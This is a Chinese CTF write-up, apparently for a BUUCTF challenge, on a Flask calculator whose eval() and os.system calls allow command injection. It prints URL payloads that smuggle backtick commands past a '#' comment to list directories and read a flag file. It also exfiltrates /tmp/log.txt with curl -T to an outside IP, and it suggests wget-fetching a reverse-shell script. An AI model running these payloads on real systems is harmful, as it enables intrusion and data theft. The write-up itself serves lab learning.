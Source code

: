 ```python
if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000)  

```

关键看

```python
data = eval(num)
os.system(log)
```

需要eval计算不报错，才能利用os.system来执行命令，用`#`注释掉就行

然后就是类似无回显rce，可以考虑curl到vps：

```
url/calc?num=123%23`curl%09ip:8899`
```

不过当时想不出咋带，后面学习了一下curl的用法

可以看看这篇：[绕过限制利用curl读取写入文件](https://www.anquanke.com/post/id/98896)

因为结果会被写入到/tmp/log.txt，可以利用curl -T带出来

```
url/calc?num=123%23`ls%09/`

url/calc?num=123%23`cat%09/Th1*`

http://a3083104-9be8-438f-9984-d62af926a2a8.node4.buuoj.cn:81/calc?num=123%23`curl%09-T%09/tmp/log.txt%09119.3.217.40:8899`
```

![](https://s2.loli.net/2022/04/18/falSeBvE9MzZjOn.png)

也可以考虑wget一个反弹shell的sh文件然后执行，注意要放到可写目录
